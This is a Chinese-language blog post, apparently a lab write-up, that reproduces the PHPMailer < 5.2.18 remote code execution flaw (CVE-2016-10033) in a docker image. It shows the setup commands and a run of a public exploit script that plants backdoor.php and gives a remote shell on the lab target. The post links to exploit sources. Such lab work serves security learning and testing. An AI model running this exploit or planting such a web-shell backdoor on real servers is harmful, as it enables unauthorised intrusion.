


# PHPMailer < 5.2.18 远程代码执行漏洞（CVE-2016-10033） - starnight_cyber - 博客园

> 原文：[`www.cnblogs.com/Hi-blog/p/7812008.html`](https://www.cnblogs.com/Hi-blog/p/7812008.html)

### PHPMailer < 5.2.18 Remote Code Execution　

　　本文将简单展示一下 PHPMailer 远程代码执行漏洞(CVE-2016-10033)的利用过程，使用的是别人已经搭建好的 docker 环境，见参考链接。

　　实验环境是在 Ubuntu 16.04.3 上，使用 docker 镜像。

### 安装和使用 docker 镜像

　　首先需要在 ubuntu 上安装 docker，可使用如下命令进行安装：

```
root@starnight:~# apt-get **install docker.io**　　　　【安装 docker】
root@starnight:~# docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2\. Set the 'ServerName' directive globally to suppress this message
==> /var/log/apache2/access.log <==

==> /var/log/apache2/error.log <== [Thu Nov 09 15:11:47.098917 2017] [mpm_prefork:notice] [pid 8] AH00163: Apache/2.4.10 (Debian) configured -- resuming normal operations
[Thu Nov 09 15:11:47.101902 2017] [core:notice] [pid 8] AH00094: Command line: '/usr/sbin/apache2 -f /etc/apache2/apache2.conf'

==> /var/log/apache2/other_vhosts_access.log <==
```

　　安装完 docker 之后，需要把相应的靶机环境下载(pull)下来，首次运行上面那条命令会下载 docker 镜像，之后就会像上面运行的那样，表明 docker 镜像正在运行。

　　查看一下 ip 地址:

```
root@starnight:~# ifconfig | grep inet
          inet addr:172.17.0.1  Bcast:0.0.0.0  Mask:255.255.0.0 inet6 addr: fe80::42:4aff:fe88:49e5/64 Scope:Link
          inet addr:192.168.0.8  Bcast:192.168.0.255  Mask:255.255.255.0 inet6 addr: fe80::a7c0:e1f7:2118:7e6a/64 Scope:Link
          inet addr:127.0.0.1  Mask:255.0.0.0 inet6 addr: ::1/128 Scope:Host
          inet6 addr: fe80::98a9:5bff:fe1f:b1c9/64 Scope:Link
```

　　这里 192.168.0.8 是我们 Ubuntu 的 ip 地址，172.17.0.1 是 docker 镜像的内部地址，通过访问 http://192.168.0.8:8080/， 就能看到搭建好的存在漏洞的环境：



### 漏洞测试

　　接下来我们使用 kali 来进行测试， 下载[exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)中的[exploit.sh](https://github.com/opsxcq/exploit-CVE-2016-10033/blob/master/exploit.sh "exploit.sh")到本地，运行如下命令进行测试：

```
root@kali:~/penetest/CVE-2016-10033# ./exploit.sh 192.168.0.8:8080 [+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 192.168.0.8:8080 [+] Target exploited, acessing shell at http://192.168.0.8:8080/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami www-data
RemoteShell> ls [+] Running ls **vulnerable**
RemoteShell> pwd [+] Running pwd
/www
```

　　其实，这里并不是所有的命令运行都会正常回显（略尴尬），比如说查看 ip 地址的命令 ifconfig 就看不到输出。

　　此外，我们在服务器端的输出中也能看到一些有趣的东西：



　　更多详情，请参考下面的链接。

### References

　　[opsxcq/exploit-CVE-2016-10033](https://github.com/opsxcq/exploit-CVE-2016-10033)　　

　　[PHPMailer < 5.2.18 - Remote Code Execution (Bash)](https://www.exploit-db.com/exploits/40968/)

　　[PHPMailer < 5.2.18 - Remote Code Execution (PHP)](https://www.exploit-db.com/exploits/40970/)

　　[PHPMailer < 5.2.18 - Remote Code Execution (Python)](https://www.exploit-db.com/exploits/40974/)